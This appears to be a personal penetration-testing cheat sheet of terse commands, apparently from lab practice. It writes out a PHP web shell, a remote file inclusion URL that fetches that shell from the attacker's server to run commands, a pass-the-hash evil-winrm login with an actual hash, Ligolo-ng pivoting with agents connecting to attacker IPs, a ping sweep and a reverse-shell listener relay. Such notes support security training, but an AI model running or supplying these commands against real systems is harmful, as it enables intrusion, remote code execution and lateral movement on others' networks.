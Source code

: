 # Commands

- echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
- echo '<?php system($_GET["cmd"]); ?>' > shell.php
- sudo python3 -m http.server <LISTENING_PORT>
- http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
- sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
- vim sed - text edit [https://youtu.be/qKcUKlwoGw8?t=2108](https://youtu.be/qKcUKlwoGw8?t=2108)
- find . | grep -i param
- windows  conpytshell
- sed 's/ //g’
- sed -z 's/\n/ /g’
- docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
- xclip -selection clipboard

## Ligolo-ng

- [https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c](https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c)
- [https://4pfsec.com/ligolo](https://4pfsec.com/ligolo)
- Proxy - attack host
    - `wget [https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_proxy_0.5.1_linux_arm64.tar.gz](https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_proxy_0.5.1_linux_arm64.tar.gz)`
- Agent - pivot host
- Setting up
    - `sudo ip tuntap add user vnk50 mode tun ligolo`
    - `sudo ip link set ligolo up`
- Run
    - ./proxy —selfcert
    - `./agent-amd64 --connect 10.10.14.187:11601 --ignore-cert`
    - `agent-amd64.exe --connect 10.10.14.90:11601 --ignore-cert`
- session
- ifconfig
- Pivot
- Add route table
    - sudo ip route add 172.16.5.0/24 dev ligolo
    - ip route list
    - 
- in proxy
    - start
    - for i in $(seq 254); do ping 172.16.5.${i} -c1 -W1 & done | grep from
- ms01 ms02
    - getting reverse shell from ms02 to ms01
    - go to proxy `listener_add --addr 0.0.0.0:1234  --to  127.0.0.1:4444`
    - `listener_list`
    - 1234 ms01 4444 our nc listener
    - pivot
    - 
    